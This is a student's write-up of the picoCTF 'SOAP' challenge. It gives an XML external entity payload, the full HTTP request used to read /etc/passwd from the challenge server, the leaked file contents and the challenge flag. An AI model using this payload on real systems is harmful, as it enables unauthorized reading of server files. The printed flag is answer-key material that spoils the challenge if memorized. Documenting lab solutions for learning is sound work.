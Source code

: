 # SOAP
**Flag:picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}**
## My thought process and approach to the challenge:
At First, I opened the website and found nothing import in the source code, but then decided to use the network tab to see what requests were being sent.         
![image](https://github.com/user-attachments/assets/5535b2e0-b0d7-4877-99dd-109b9d2deb20)

Saw that there was a request of the form
```
Content-Type: applications/xml
```
Researched about this and got to know that it would be vulnerable to an XXE injection or an XML external entity injection            
Using https://portswigger.net/web-security/xxe, I got the injection
![image](https://github.com/user-attachments/assets/60e6b3e6-8b93-4fea-8514-4264c4d6e75d)
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
![image](https://github.com/user-attachments/assets/a44d98b1-3270-45e7-ad88-5d6b02baf6ab)
Adding content length to be more:   
![image](https://github.com/user-attachments/assets/f3de50d7-6598-42f7-aa0d-e0805ef79c1f)
the final result was:
```
POST /data HTTP/1.1

Host: saturn.picoctf.net:53042

Content-Length: 119

Accept-Language: en-US

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36

Content-Type: applications/xml

Accept: */*

Origin: http://saturn.picoctf.net:53042

Referer: http://saturn.picoctf.net:53042/

Accept-Encoding: gzip, deflate, br

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]>

<data><ID>

&xxe;1

2</ID></data>
```
After forwarding the request, the server returned a response containing the /etc/passwd file:
![image](https://github.com/user-attachments/assets/9113b486-9045-4308-b436-abbd3d0321c1)
Which gave me:    
```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4} 1 2
```
which gave me the flag: picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}

---

## Every single new concept and point of knowledge I learned or improved upon through solving the challenge.
1. Learnt how XML External Entity (XXE) vulnerabilities work and how to use them.
2. Learnt how to make and send POST requests with XML using developer tools.
3. Learnt how to extract sensitive files like /etc/passwd through injections.
4. Learnt more about helpful tools like PortSwigger's XXE labs.
---

##  Incorrect tangents I went on while solving :
1. Initially, I inspected the website's source code, thinking there might be hidden hints or comments that would help me, but found nothing.
2. Attempted SQL injection in the request and sending them before realizing it was XML-based.(took way too much time to understand and implement, but it lead me nowhere close)
3. Overlooked the importance of properly setting the `Content-Length` header initially, which caused the server to reject my payload.(Was stuck on this for 2+ hours thinking I had everything right and it was still being rejected by the server)
